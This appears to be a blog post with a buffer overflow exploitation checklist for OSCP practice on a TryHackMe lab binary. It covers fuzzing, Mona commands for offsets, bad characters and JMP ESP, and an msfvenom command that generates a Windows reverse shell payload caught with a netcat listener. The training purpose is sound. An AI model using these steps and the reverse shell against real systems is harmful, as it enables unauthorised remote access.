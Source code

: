 ```yaml
---
layout: post
title:  "Buffer Overflow Checklist"
date:   2021-01-21 20:07:19
categories: [Checklist,oscp-prep,BOF]
comments: true

---
```


I prepared these checklist from this Amazing THM Room. Thanks to the creator
https://tryhackme.com/room/bufferoverflowprep

<!--more-->

### Step 1 (Initial Set up):
 
* Run the immunity debugger as Administrator
* File --> Open --> "Load the BOF Binary"
* Debug --> Run/Restart
* Connect to the vulnerable bof from Kali linux and understand how the binary works
`nc <remotemachine> port`
* Configure Mona working directory to the current directory
`!mona config -set workingfolder c:\mona\%p`

### Step 2 (Fuzz)

* Run [fuzz.py](https://gist.githubusercontent.com/an0th3rhuman/1db2f50be783b9c9383d0e8ff0277dc1/raw/13b5e06ba50e06c4724569caaffdfeb8987fb525/fuzzer.py)

* When you see the `Could not connect to the Machine`, then note the largest byte sent.

### Step 3 (EIP Control):

* Create [exploit.py](https://gist.githubusercontent.com/an0th3rhuman/250866a7d0923603a4f96a4e14c6017d/raw/b1afe0b25c24c22d7c9277e953af130800da35ae/exploit.py)


* Create pattern, by giving 400 byte extra to the byte that we found during step2.
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600`
* Put output for the above in `payload` variable
* Rerun the debugger and execute exploit.py
* Once the application crash, execute the below command in mona to find EIP offset (give length as given in pattern create)
`!mona findmsp -distance 600`
* Update the offset variable
* Empty the payload variable
* Update retn value with BBBB
* Restart the binary and you will notice the value of B in EIP


### Step 4 (Finding Bad Characters):

* Create bytearray bin in Mona by excluding Bad characters. /x00 by default a bad character
`!mona bytearray -b "\x00"`
* Create [bytearray.py](https://gist.githubusercontent.com/an0th3rhuman/751236b8ed058efdc2f5ed92c1c8b7e6/raw/bd7174ca9a8f3bcbb9eee57370b8b54265f4b4a7/badchar.py)

* Set the result to the payload variable
* Restart the binary and run exploit.py
* Once crashed, execute the below to know further bad characters
`!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP address>`
* Make note of bad characters, add to the bytearray bin and remove the badcharacters from the bytearray payload.
* Repeat the above process till get "Unmodified" while comparing with ESP address


### Step 5 (Finding Jump point)

* Update -cbp flag with all bad characters found from the step 4
`!mona jmp -r esp -cpb "\x00"`
* The above command return all the address of ESP that does not contain any bad characters
* Choose any ESP address and update it in reverse order in the retn Variable


### Step 6 (Generating Payload)

* `msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py `
* Tweak the code by replacing payload to buf

* Set the padding 16 or more `padding = "\x90" * 16` in the exploit code
* Spwan a nc listner and run the exploit!




